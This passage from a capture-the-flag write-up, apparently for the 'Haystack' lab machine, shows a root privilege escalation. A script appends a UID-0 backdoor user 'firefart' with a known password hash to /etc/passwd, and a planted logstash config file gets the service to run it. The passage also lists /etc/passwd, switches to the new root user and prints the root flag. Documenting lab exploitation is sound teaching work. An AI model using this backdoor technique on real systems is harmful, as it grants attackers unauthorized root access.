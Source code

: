 ~~~

echo 'firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash' >> /etc/passwd
{% endhighlight %}
{% highlight shell %}
root@kali:~# scp firefart.sh security@10.10.10.115:/dev/shm
security@10.10.10.115's password: 
firefart.sh                                             100%   88     2.1KB/s   00:00
{% endhighlight %}

Then, create a following config file to achieve a reverse shell as user "kibana" with the following command.
{% highlight shell %}
echo 'Ejecutar comando : bash /dev/shm/firefart.sh' > /opt/kibana/logstash_firefart
{% endhighlight %}

After a few minutes, finally, we can confirm a new user "firefart" with password "test" was added in "/etc/passwd".<br>
To switch the user, we can use "su" command.
{% highlight shell %}
[security@haystack ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
security:x:1000:1000:security:/home/security:/bin/bash
elasticsearch:x:997:995:elasticsearch user:/nonexistent:/sbin/nologin
logstash:x:996:994:logstash:/usr/share/logstash:/sbin/nologin
nginx:x:995:993:Nginx web server:/var/lib/nginx:/sbin/nologin
kibana:x:994:992:kibana service user:/home/kibana:/sbin/nologin
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash
[security@haystack ~]$
{% endhighlight %}
{% highlight shell %}
[security@haystack ~]$ su firefart
Password:

[root@haystack security]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
{% endhighlight %}

As always, root.txt is in the directory "/root"
{% highlight shell %}
[root@haystack security]# cat /root/root.txt 
3f5f727c38d9f70e1d2ad2ba11059d92
{% endhighlight %}
